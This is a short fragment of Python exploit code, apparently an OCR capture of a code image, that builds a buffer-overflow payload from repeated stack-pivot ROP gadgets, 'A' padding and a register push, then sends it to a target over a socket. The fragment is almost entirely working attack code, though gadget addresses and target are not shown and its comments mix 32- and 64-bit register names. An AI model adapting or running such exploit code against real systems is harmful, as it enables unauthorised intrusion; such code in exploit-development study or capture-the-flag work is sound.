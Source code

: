     msg += add_esp_0x78 # 0x1c0-0x78 = 0x148
    msg += b"A"*0x78
    msg += add_esp_0x78 # 0x1c0-0x78-0x78 = 0xd0
    msg += b"A"*0x78
    msg += add_esp_0x78 # 0x1c0-0x78-0x78-0x78 = 0x58
    msg += b"A"*0x78
    msg += add_esp_0x38 

    msg += b"A"*(512-len(msg))
    msg += b"\x51" #push rcx
    msg += b"\x00"*7 #padding for reverse_arr
    msg += add_esp_0x78 #gadget to pivot stack

    s.send(msg)
    res = s.recv(2048)

    s.close() # close connection
    w8()
    ```

    